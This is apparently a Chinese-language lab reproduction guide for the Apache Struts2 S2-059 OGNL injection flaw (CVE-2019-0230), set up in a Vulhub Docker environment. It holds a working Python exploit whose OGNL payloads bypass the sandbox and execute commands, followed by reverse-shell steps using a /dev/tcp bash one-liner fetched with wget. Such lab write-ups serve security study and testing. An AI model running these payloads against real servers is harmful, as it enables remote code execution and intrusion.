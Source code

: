 # Struts2 S2-059 远程代码执行漏洞 CVE-2019-0230

## 漏洞描述

Apache Struts框架, 会对某些特定的标签的属性值，比如id属性进行二次解析，所以攻击者可以传递将在呈现标签属性时再次解析的OGNL表达式，造成OGNL表达式注入。从而可能造成远程执行代码。

参考链接：

- https://cwiki.apache.org/confluence/display/WW/S2-059
- https://securitylab.github.com/research/ognl-apache-struts-exploit-CVE-2018-11776

## 影响版本

影响版本: Struts 2.0.0 - Struts 2.5.20

## 环境搭建

Vulhub执行以下命令启动Struts 2.5.16 s2-059测试环境：

```
docker-compose build
docker-compose up -d
```

启动环境之后访问`http://your-ip:8080/?id=1` 就可以看到测试界面

## 漏洞复现

访问 `http://your-ip:8080/?id=%25%7B233*233%7D`，可以发现233*233的结果被解析到了id属性中：

![image-20220302135315508](./images/202203021353597.png)

《[OGNL Apache Struts exploit: Weaponizing a sandbox bypass (CVE-2018-11776)](https://securitylab.github.com/research/ognl-apache-struts-exploit-CVE-2018-11776)》给出了绕过struts2.5.16版本的沙盒的poc，利用这个poc可以达到执行系统命令。

通过如下Python脚本复现漏洞：

```python
import requests

url = "http://192.168.174.128:8080"
data1 = {
    "id": "%{(#context=#attr['struts.valueStack'].context).(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames(''))}"
}
data2 = {
    "id": "%{(#context=#attr['struts.valueStack'].context).(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('touch /tmp/awesome_poc'))}"
}
res1 = requests.post(url, data=data1)
# print(res1.text)
res2 = requests.post(url, data=data2)
# print(res2.text)
```

执行poc之后，进入容器发现`touch /tmp/awesome_poc`已成功执行。

![image-20220302135633547](./images/202203021356602.png)

### 反弹shell

编写shell脚本并启动http服务器：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

上传shell.sh文件的命令为：

```
wget 192.168.174.128/shell.sh
```

执行shell.sh文件的命令为：

```
bash shell.sh
```

成功接收反弹shell：

![image-20220302135809119](./images/202203021358216.png)
